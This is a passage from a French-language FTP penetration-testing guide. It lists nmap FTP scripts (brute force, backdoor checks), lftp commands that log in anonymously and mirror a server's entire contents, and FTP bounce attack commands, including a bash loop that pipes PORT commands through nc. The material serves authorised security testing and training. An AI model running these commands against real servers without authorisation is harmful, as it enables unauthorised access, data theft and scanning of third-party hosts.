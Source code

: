 ## 🛠️ Phase 6 : Outils Automatisés

### Scripts Nmap FTP
```bash
# 1. Script complet FTP
nmap --script ftp-* target.com -p 21

# 2. Scripts spécifiques
nmap --script ftp-anon target.com -p 21              # Accès anonyme
nmap --script ftp-bounce target.com -p 21            # FTP bounce
nmap --script ftp-brute target.com -p 21             # Brute force
nmap --script ftp-libopie target.com -p 21           # Vuln libopie
nmap --script ftp-proftpd-backdoor target.com -p 21  # ProFTPD backdoor
nmap --script ftp-syst target.com -p 21              # Commande SYST
nmap --script ftp-vsftpd-backdoor target.com -p 21   # vsftpd backdoor
```

### lftp pour Exploration Avancée
```bash
# 1. Connexion avec lftp
lftp target.com

# 2. Commandes utiles lftp
lftp target.com:~> login anonymous ""
lftp target.com:~> ls -la
lftp target.com:~> find . -name "*.txt"
lftp target.com:~> mirror --verbose / ./ftp_complete_dump/
lftp target.com:~> lcd /local/directory
lftp target.com:~> get -c filename    # Resume download

# 3. Script lftp automatisé
lftp -c "open ftp://anonymous@target.com; mirror --verbose; quit"
```

## 🔒 Phase 7 : Tests de Sécurité Avancés

### FTP Bounce Attack
```bash
# 1. Test manuel
ftp target.com
ftp> PORT 192,168,1,200,0,22    # Scan port 22 sur 192.168.1.200
ftp> LIST

# 2. Avec Nmap
nmap -b anonymous:password@target.com 192.168.1.200 -p 22

# 3. Script automatisé
#!/bin/bash
for port in 22 23 25 53 80 443; do
    echo "Testing port $port"
    echo "PORT 192,168,1,200,0,$port" | nc target.com 21
done
```
